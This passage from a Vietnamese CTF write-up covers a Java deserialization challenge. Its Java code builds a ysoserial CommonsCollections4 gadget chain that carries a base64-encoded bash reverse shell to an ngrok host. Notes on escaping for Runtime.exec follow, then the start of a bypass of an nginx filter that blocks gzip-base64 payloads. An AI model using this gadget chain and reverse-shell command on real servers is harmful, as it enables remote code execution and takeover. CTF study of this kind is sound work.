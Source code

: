 ```java
        } finally {
            try{if(fis != null) fis.close();} catch(Exception e){}
            try{if(gos != null) gos.close();} catch(Exception e){}
        }
    }

    public static void main(String[] args) {
        try {
            // Serialize CommonsCollection4 RCE gadget chain từ ysoserial.
            CommonsCollections4 cc4 = new CommonsCollections4();
            Object obj = cc4.getObject("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMzk5MiAwPiYx}|{base64,-d}|{bash,-i}"); // command lấy reverse shell.
            FileOutputStream fos = new FileOutputStream("cc4.txt");
            ObjectOutputStream oos = new ObjectOutputStream(fos);
            oos.writeObject(obj);

            // Compress thành file gzip
            gZipFile("cc4.txt", "cc4.txt.gz");

            // Lấy dữ liệu từ file gzip và thực hiện encode
            byte[] bytes = Files.readAllBytes(Paths.get("cc4.txt.gz"));
            String a =  Base64.getEncoder().encodeToString(bytes);
            System.out.println(encodeB(a));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

**Lưu ý**: 
1. Server(docker) không có các tool như curl, ping, nc,... nên không thể sử dụng để lấy luôn flag được, phải lấy được shell.
2. Method `getObject()` khi tạo payload CC4 nhận arg command dưới dạng là 1 string, cái mà sẽ được nạp vào method `Runtime.getRuntime.exec(string)` để thực thi command. Mà method [exec(string) trong Java sẽ tự động split string dựa vào dấu space thành 1 string array](https://askcodes.net/coding/why-does-runtime-exec-string--work-for-some-but-not-all-commands-) để pass như các command arguments cho nên chỗ command này mình cần escape dấu space. 
2. `Runtime.getRuntime.exec()` có nhiều hạn chế hơn 1 shell bình thường nên 1 số ký tự, command không thể intepret hay escape nên ví dụ với command `bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/13992 0>&1` có chứa `>&` thì cần được escape nên mình base64 encode luôn đoạn này và nạp vào bash.

![unknown](https://user-images.githubusercontent.com/71699412/196038602-0b373191-5a43-46db-9487-cbd9c684a216.png)

Đến đây nếu gửi luôn payload lên server thì sẽ bị trả về: ` 403: Deserialization of Untrusted Data Detected. (From real WAF with <3)` do firewall mình đã nhắc ở trên.

## Bypass
**nginx.conf**:
```
server {    
    listen 80;

    large_client_header_buffers 4 3000; # Limit URI length upto 3000 bytes

    location ~* H4sI {
        return 403 'Deserialization of Untrusted Data Detected. (From real WAF with <3)';
    }

    location / {
        proxy_set_header   X-Forwarded-For $remote_addr;
        proxy_set_header   Host $http_host;
```